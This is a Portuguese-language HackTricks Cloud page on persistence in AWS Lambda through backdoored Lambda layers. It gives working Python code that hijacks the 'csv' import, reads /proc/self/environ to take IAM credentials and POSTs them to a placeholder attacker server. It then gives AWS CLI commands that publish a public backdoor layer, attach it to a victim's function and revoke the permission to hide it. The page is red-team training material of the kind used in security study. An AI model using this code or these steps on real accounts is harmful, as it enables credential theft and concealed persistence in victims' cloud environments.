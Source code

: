 # AWS - Persistência em Camadas Lambda

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Camadas Lambda

Uma camada Lambda é um arquivo .zip que **pode conter código adicional** ou outro conteúdo. Uma camada pode conter bibliotecas, um [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dados ou arquivos de configuração.

É possível incluir até **cinco camadas por função**. Quando você inclui uma camada em uma função, o **conteúdo é extraído para o diretório `/opt`** no ambiente de execução.

Por **padrão**, as **camadas** que você cria são **privadas** para a sua conta AWS. Você pode optar por **compartilhar** uma camada com outras contas ou **tornar** a camada **pública**. Se suas funções consomem uma camada publicada por uma conta diferente, suas funções podem **continuar a usar a versão da camada após ela ter sido excluída, ou após sua permissão de acesso à camada ser revogada**. No entanto, você não pode criar uma nova função ou atualizar funções usando uma versão de camada excluída.

Funções implantadas como uma imagem de contêiner não usam camadas. Em vez disso, você empacota seu runtime preferido, bibliotecas e outras dependências na imagem do contêiner quando constrói a imagem.

### Caminho de carga do Python

O caminho de carga que o Python usará no lambda é o seguinte:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifique como a **segunda** e terceira **posições** são ocupadas por diretórios onde **lambda layers** descomprimem seus arquivos: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se um atacante conseguir **inserir um backdoor** em um lambda **layer** utilizado ou **adicionar um** que será **executando código arbitrário quando uma biblioteca comum for carregada**, ele poderá executar código malicioso a cada invocação do lambda.
{% endhint %}

Portanto, os requisitos são:

* **Verificar bibliotecas** que são **carregadas** pelo código das vítimas
* Criar uma **biblioteca proxy com lambda layers** que irá **executar código personalizado** e **carregar a biblioteca original**.

### Bibliotecas pré-carregadas

{% hint style="warning" %}
Ao abusar desta técnica, encontrei uma dificuldade: Algumas bibliotecas já estão **carregadas** no runtime do python quando seu código é executado. Eu esperava encontrar coisas como `os` ou `sys`, mas **até a biblioteca `json` estava carregada**.\
Para abusar desta técnica de persistência, o código precisa **carregar uma nova biblioteca que não esteja carregada** quando o código for executado.
{% endhint %}

Com um código python como este é possível obter a **lista de bibliotecas que estão pré-carregadas** dentro do runtime do python no lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E esta é a **lista** (verifique se bibliotecas como `os` ou `json` já estão presentes)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E esta é a lista de **bibliotecas** que o **lambda inclui instaladas por padrão**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdoor em Camada Lambda

Neste exemplo, vamos supor que o código alvo está importando **`csv`**. Vamos **criar um backdoor na importação da biblioteca `csv`**.

Para fazer isso, vamos **criar o diretório csv** com o arquivo **`__init__.py`** dentro dele em um caminho que é carregado pelo lambda: **`/opt/python/lib/python3.9/site-packages`**\
Então, quando o lambda for executado e tentar carregar **csv**, nosso arquivo **`__init__.py` será carregado e executado**.\
Este arquivo deve:

* Executar nosso payload
* Carregar a biblioteca csv original

Podemos fazer ambos com:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Então, crie um zip com este código no caminho **`python/lib/python3.9/site-packages/__init__.py`** e adicione-o como uma camada lambda.

Você pode encontrar este código em [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

O payload integrado irá **enviar as credenciais IAM para um servidor NA PRIMEIRA VEZ que for invocado ou APÓS um reset do contêiner lambda** (mudança de código ou lambda frio), mas **outras técnicas** como a seguinte também poderiam ser integradas:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Camadas Externas

Note que é possível usar **camadas lambda de contas externas**. Além disso, uma lambda pode usar uma camada de uma conta externa mesmo que não tenha permissões.\
Observe também que o **número máximo de camadas que uma lambda pode ter é 5**.

Portanto, para melhorar a versatilidade desta técnica, um atacante poderia:

* Colocar um backdoor em uma camada existente do usuário (nada é externo)
* **Criar** uma **camada** em **sua própria conta**, dar **acesso à conta da vítima** para usar a camada, **configurar** a **camada** na Lambda da vítima e **remover a permissão**.
* A **Lambda** ainda será capaz de **usar a camada** e a **vítima não terá** uma maneira fácil de **baixar o código das camadas** (além de obter um shell reverso dentro da lambda)
* A vítima **não verá camadas externas** usadas com **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
